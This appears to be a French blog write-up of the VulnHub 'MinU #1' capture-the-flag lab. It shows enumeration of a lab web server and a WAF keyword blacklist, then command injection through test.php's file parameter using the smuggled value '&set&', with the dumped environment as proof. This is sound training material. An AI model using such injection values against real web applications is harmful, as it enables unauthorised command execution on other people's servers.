 ```yaml
---
title: "Solution du CTF MinU #1 de VulnHub"
tags: [CTF,VulnHub]
---
```


[MinU #1](https://vulnhub.com/entry/minu-1,235/) fait partie de ces CTFs qui ne payent pas de mine et dont la description n'annonce rien de particulier. Pourtant, on se retrouve très vite à batailler avec un VRAI WAF et non une petite protection home made.

## Ça va couper, chérie !

La VM n'expose qu'un serveur web avec une page d'index par défaut.

J'ai énuméré un moment et je donne ci-dessous un aperçu de ce qui a été trouvé :

```
403       13l       50w        0c http://192.168.56.214/scandir/
403       13l       50w        0c http://192.168.56.214/readfile.php
403       13l       50w        0c http://192.168.56.214/function.readfile
403       13l       50w        0c http://192.168.56.214/function.scandir
403       13l       50w        0c http://192.168.56.214/readfile.aspx
200       40l      159w     1986c http://192.168.56.214/test.php
200        1l        3w       20c http://192.168.56.214/last.html
403       13l       50w        0c http://192.168.56.214/readfile.php
```

Les réponses 403 ne sont vraisemblablement pas liées à des problèmes de permissions. En effet, les noms bloqués correspondent à des noms de fonctions PHP. Cela laisse supposer qu'au minimum une blacklist de mots clés est en place.

Le script qui nous intéresse ici est `test.php` qui peut visiblement charger un fichier présent sur le système.

```html
    <h2>OMGJS - <strike>Everything</strike> a browser knows about you</h2>
    <small>It actually knows more...</small>
    <noscript>No js yay!</noscript>
    <p id='data'></p>
    <a href='test.php?file=last.html'>Read last visitor data</a>
```

J'ai lancé `Wapiti` sur l'URL et il a rapidement trouvé une injection de commande avec le payload `&set&`, payload qui a le bénéfice de donner un résultat sur Windows ET Linux.

J'ai d'abord pensé à un faux positif, car c'est étonnant que le script puisse à la fois recevoir un nom de fichier et une commande. Pourtant en regardant l'output du script, on valide l'exécution :

```bash
APACHE_LOCK_DIR='/var/lock/apache2'
APACHE_LOG_DIR='/var/log/apache2'
APACHE_PID_FILE='/var/run/apache2/apache2.pid'
APACHE_RUN_DIR='/var/run/apache2'
APACHE_RUN_GROUP='www-data'
APACHE_RUN_USER='www-data'
IFS=' 
'
INVOCATION_ID='ad29a2ed2ba244499bf0b55a8856ca07'
JOURNAL_STREAM='9:14931'
LANG='C'
LANGUAGE='en_GB:en'
OPTIND='1'
PATH='/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin'
PPID='888'
PS1='$ '
PS2='> '
PS4='+ '
```